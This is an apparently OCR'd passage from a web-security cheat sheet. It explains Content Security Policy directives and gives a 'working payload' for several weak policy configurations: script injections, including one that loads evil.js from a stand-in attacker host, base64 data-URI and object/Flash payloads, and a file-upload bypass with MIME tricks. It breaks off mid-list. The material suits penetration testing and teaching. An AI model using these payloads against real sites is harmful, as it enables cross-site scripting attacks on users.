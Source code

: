```
unsafe-inline: This allows the use of inline resources, such as inline elements, javascript: URLs, inline event handlers, and inline elements. Again this is not recommended for security reasons.
nonce: A whitelist for specific inline scripts using a cryptographic nonce (number used once). The server must generate a unique nonce value each time it transmits a policy.
sha256-<hash>: Whitelist scripts with an specific sha256 hash
Unsafe Scenarios
‘unsafe-inline’
1
Content-Security-Policy: script-src https://google.com 'unsafe-inline'; 
Working payload: "/><script>alert(1);</script>

‘unsafe-eval’
1
Content-Security-Policy: script-src https://google.com 'unsafe-eval'; 
Working payload: <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>

Wildcard
1
Content-Security-Policy: script-src 'self' https://google.com https: data *; 
Working payload:

1
2
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
Lack of object-src and default-src
1
Content-Security-Policy: script-src 'self' ;
Working payloads:

1
2
3
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
File Upload + ‘self’
Content-Security-Policy: script-src 'self';  object-src 'none' ; 
If you can upload a JS file you can bypass this CSP:

Working payload:

1
"/>'><script src="/uploads/picture.png.js"></script>
However, it’s highly probable that the server is validating the uploaded file and will only allow you to upload determined type of files.

Moreover, even if you could upload a JS code inside a file using a extension accepted by the server (like: script.png) this won’t be enough because some servers like apache server selects MIME type of the file based on the extension and browsers like Chrome will reject to execute Javascript code inside something that should be an image. “Hopefully”, there are mistakes. For example, from a CTF I learnt that Apache doesn’t know the .wave extension, therefore it doesn’t serve it with a MIME type like audio/*.

From here, if you find a XSS and a file upload, and you manage to find a misinterpreted extension, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot (some polyglot examples here).

Third Party Endpoints + ‘unsafe-eval’
1
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
```